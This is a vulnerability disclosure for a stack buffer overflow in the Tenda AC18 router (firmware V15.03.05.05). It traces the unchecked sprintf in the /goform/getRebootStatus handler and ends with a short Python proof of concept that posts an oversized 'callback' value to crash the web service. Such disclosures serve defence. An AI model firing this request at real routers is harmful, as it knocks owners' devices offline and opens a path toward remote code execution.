

# Bug Report: Buffer Overflow in Tenda AC18 15.03.05.05 Router
A stack-based buffer overflow vulnerability has been identified in the web management interface of the Tenda AC18 router (firmware version V15.03.05.05). An attacker can trigger this vulnerability by sending a maliciously crafted, overly long string within the `callback` parameter to the `/goform/getRebootStatus` endpoint. Successful exploitation of this flaw can result in a crash of the web service (Denial of Service - DoS) or potentially allow for Remote Code Execution (RCE).

### Vulnerability Details
**Product Information** 

Product: Tenda AC18 Wireless Router

Affected Version: V15.03.05.05

Vulnerability Type: Stack-based Buffer Overflow 


### Description:
The vulnerable code path processes HTTP POST requests to the `/goform/getRebootStatus` endpoint. The web server maps this route to the internal C function `sub_45304`.

The vulnerability occurs when processing the `callback` parameter. The function retrieves the user-controlled `callback` input and directly concatenates it with an internal JSON status string using the unsafe `sprintf` function (`sprintf(s, "%s(%s)\n", v12, (const char *)ptr);`).

Because there are no length checks on the input data and the destination stack buffer `s` is fixed at only 64 bytes, an attacker can supply an overly long string. This will overflow the allocated stack buffer, overwrite the saved frame pointer (EBP), and hijack the function's return address (EIP/PC).


### Poc


### Reproduce

```python
import requests

host = "192.168.0.1:80"

def exploit_sub_45304():
    url = f"http://{host}/goform/getRebootStatus"
    cyclic = b'A'* 0x1000
    data = {
        b"callback": cyclic
    }
    res = requests.post(url=url,data=data)
    print(res.content)


exploit_sub_45304()
```